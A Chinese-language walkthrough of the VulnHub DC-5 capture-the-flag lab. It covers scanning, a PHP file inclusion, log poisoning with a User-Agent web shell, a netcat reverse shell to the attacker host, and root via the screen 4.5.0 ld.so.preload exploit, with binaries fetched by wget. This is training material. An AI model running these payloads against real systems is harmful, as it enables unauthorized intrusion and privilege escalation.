







# DC5
- [参考](https://blog.csdn.net/weixin_43583637/article/details/102769923)

- [学习](https://www.vulnhub.com/entry/dc-5,314/)

- [下载](https://download.vulnhub.com/dc/DC-5.zip)

## 扫描

```
 nmap -sP 192.168.31.0/24
```


192.168.31.233 为我们的靶机

```
nmap -sT -sV -T5 -A -p- 192.168.31.233  //继续使用nmap获取详细信息

```


开放端口有80、111、40742

## 初探

使用浏览器打开靶机网址，页面如下


打开Contact页面，发现是一个留言板块，在留言板块输入点内容然后提交康康


页面跳转到Thankyou.php，并且在URL地址栏可以看到提交的参数，是用GET方式传参的

```
http://192.168.31.233/thankyou.php?firstname=123&lastname=123&country=australia&subject=123
```


当刷新页面时发现 Copyright的值一直在变化，

猜测页面有可能存在文件包含




## 中期

使用BurpSuite抓包

爆破后台页面，发现存在index.php，solutions.php，about-us.php，faq.php，contact.php，thankyou.php，footer.php七个页面



挨个访问，发现footer.php是包含的点


找到文件包含的点



放入burp中跑一下试试看


欸，好像有个有点用的，构造一下url访问一下
```
http://192.168.31.233/thankyou.php?file=/etc/passwd
```
盲生，你发现了华点！


使用BurpSuite抓包爆破靶机日志文件的位置，爆破出一个

```
/var/log/nginx/error.log
```
通过常用的改数值完全无法写入

然而我这个不行他好像没有这个文件



我服了


接下来都是我看别人的笔记所复制下来的
往见谅 [参考1](https://blog.csdn.net/weixin_43583637/article/details/102769923)
[参考2](https://github.com/No-Github/1earn/blob/master/1earn/%E5%AE%89%E5%85%A8/%E5%AE%9E%E9%AA%8C/VulnHub/DC/DC5-WalkThrough.md)


访问 `http://192.168.31.233` 抓包,在 User-Agent: 中添加 
```
payload: <?php system($_GET['cmd']) ?>
```

kali 开启 nc 监听

```
nc -nlvp 4444
```
访问 `http://192.168.31.233/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 192.168.31.243 4444 -e /bin/bash` 测试

## 提权

切换shell外壳
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

使用find命令，查找具有suid权限的命令，发现 `screen-4.5.0`

```
find / -perm /4000 2>dev/null
```

查找可用于screen 4.5.0的漏洞脚本文件

```
searchsploit screen 4.5.0
```


```
cp /usr/share/exploitdb/exploits/linux/local/41154.sh  41154.sh
 
cp /usr/share/exploitdb/exploits/linux/local/41152.txt  41152.txt
```


编译libhax.c文件

```
gcc -fPIC -shared -ldl -o libhax.so  libhax.c
```



编译rootshell.c文件

```
gcc -o rootshell rootshell.c
```

把编译好的 libhax.so 和 rootshell 从 kali 传给 靶机

```
python -m SimpleHTTPServer 8080

```
```
cd /tmp
wget 192.168.31.243:8080/libhax.so;wget 192.168.31.243:8080/rootshell

```


运行 poc

```
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```

结尾：

```
ls

cat thisistheflag.txt
```


## 总结

该靶场大致要点为： 
- 查找包含点并使用 GET参数爆破。
- 对日志进行中毒攻击。
- 对 screen4.5.0 版本进行提权操作。

更新笔记：
- 内网渗透
- 爆破手法
- 提权骚操作
